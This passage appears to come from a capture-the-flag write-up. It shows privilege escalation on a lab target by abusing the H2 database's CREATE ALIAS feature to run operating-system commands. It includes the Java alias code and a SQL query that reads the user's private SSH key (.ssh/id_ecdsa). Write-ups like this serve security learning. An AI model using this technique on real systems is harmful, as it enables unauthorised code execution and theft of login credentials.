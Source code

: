 ## PRIVILEGE ESCALATION
This is where things get interesting.  I couldn't get the root flag using the same method so what about getting the ssh key of the current user `margo` as seen in the settings tab.

Using application of what was in one of the resources above on interacting with a H2 database and some help, I got the following script:

```sh
CREATE ALIAS RUNEXEC AS $$
String shellexec(String cmd) throws java.io.IOException {
    java.io.InputStream stream = Runtime.getRuntime().exec(cmd).getInputStream();
    StringBuilder hexOutput = new StringBuilder();
    
    int b;
    while ((b = stream.read()) != -1) {
        hexOutput.append(String.format("%02X", b));  // Convert each byte to its hex representation
    }
    
    return hexOutput.toString();
} $$;
```

**EXPLANATION OF SCRIPT**
The CREATE ALIAS function allows a user to define custom java code and execute the code as part of an SQL query. In the context above, the script will execute a shell command on the underlying operating system and returns the output as a **hexadecimal string**.
![img-description](12.png)

After that I used the following command to fetch the ssh key needed to ssh into the target
```sh
SELECT CAST(RUNEXEC('cat .ssh/id_ecdsa') AS VARCHAR);
```

The command calls the `RUNEXEC` function created earlier and reads contents of the ssh key file.
But remember the `RUNEXEC` function outputs content in hex format. The `AS VARCHAR` part of the command will take the hex outout and cast it into a readable format that can be displayed in SQL result section.
